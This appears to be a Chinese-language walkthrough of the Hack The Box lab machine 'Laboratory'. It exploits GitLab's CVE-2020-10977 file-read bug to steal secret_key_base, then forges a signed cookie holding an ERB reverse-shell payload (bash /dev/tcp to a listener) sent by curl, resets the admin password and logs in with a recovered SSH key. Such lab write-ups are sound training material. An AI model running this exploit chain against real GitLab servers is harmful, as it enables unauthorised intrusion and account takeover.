

[HTB]Laboratory
上手nmap先扫一波
有个web服务,可以看到443端口DNS解析到git.laboratory.htb
所以我们在hosts添加一条
访问git.laboratory.htb，发现是一个gitlab
利用CVE-2020-10977可以任意文件读取以及rce
任意文件读取
[CVE-2020-10977]](https://hackerone.com/reports/827052)
任意创建两个项目，并在其中一个提交一个新的issues


并在其中横向移动到另一个仓库，即可触发漏洞
拿到其中secret_key_base
RCE
我们需要在本地搭一个giltlab，可以直接从docker推镜像
将本地的secret_key_base替换，进入gitlab-rails console
依次执行
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c '/bin/bash -i >& /dev/tcp/ip/4444 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
本地监听4444，用curl发包
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kieiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxJ2AgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--1bdc8a5aa25ee2016f5912f3501514af5eb84c7b" -k
成功弹到shell
现在我们可以利用gitlab-rails console来修改管理员账户密码
user = User.where(id: 1).first
user.password = '12345678'
user.password_confirmation = '12345678'
user.save!
修改成功，用管理员登录
管理员下面有两个仓库，其中一个里面有个ssh私钥，可以利用ssh私钥无密码登录，但私钥使用的是openssh格式，我们需要转换为rsa格式才能使用
利用pyttygen可以转换
puttygen test -o test.ppk
puttygen test.ppk -O private-openssh -o test.oldformat
最后直接私钥登录拿到shell